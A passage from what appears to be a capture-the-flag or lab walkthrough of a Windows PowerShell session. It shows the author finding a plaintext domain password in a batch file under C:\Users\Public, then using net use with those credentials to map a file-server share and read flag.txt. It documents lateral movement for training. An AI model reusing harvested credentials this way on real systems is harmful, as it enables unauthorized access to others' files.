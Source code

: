 ```powershell
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
PS C:\Windows\system32> schtasks
```
navigate to `cd C:\Users\Public\Libraries\` and `cat` `share.bat`
```powershell
PS C:\Windows\system32> cd C:\Users\Public\Libraries\
PS C:\Windows\system32> dir

    Directory: C:\Users\Public\Libraries

Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
-a----        8/27/2016  11:54 AM         138920 Autologon.exe                                    
-a----        7/16/2016   9:21 AM            999 RecordedTV.library-ms                            
-a----        4/26/2018  11:55 AM             89 share.bat                                        

PS C:\Windows\system32> cat share.bat
@echo off
net use Z: \\fs01\users\bill\documents /user:CORP\bill "I like to map Shares!"
PS C:\Windows\system32> 
```
shows a `sharedrive` to `map` to, utilize the `net use` command to map to the drive
- utilizing the `Z` share doesn't work
```powershell
PS C:\Windows\system32> net use X: \\fs01\users\bill\documents /user:CORP\bill "I like to map Shares!"                                                                                                     
The command completed successfully.      
```
utilizing base `net use` to ensure that the `sharedrive` was properly mapped
```powershell
PS C:\Windows\system32> net use                                                                                                                                                                            
New connections will be remembered.                                                                                                                     
Status       Local     Remote                    Network                                                                                                
-------------------------------------------------------------------------------                                                                         
OK           X:        \\fs01\users\bill\documents                                                                                                      
                                                Microsoft Windows Network                                                                                                                                  
The command completed successfully.                                                
```
`dir` the `drive`
```powershell
PS C:\Windows\system32> dir \\fs01\users\bill\documents\

    Directory: \\fs01\users\bill\documents

Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
-a----        7/16/2018   4:30 PM            625 backup.ps1                                       
-a----        4/29/2018   3:18 AM             32 flag.txt                                         
```
`cat flag.txt`
```powershell
PS C:\Windows\system32> cat \\fs01\users\bill\documents\flag.txt
```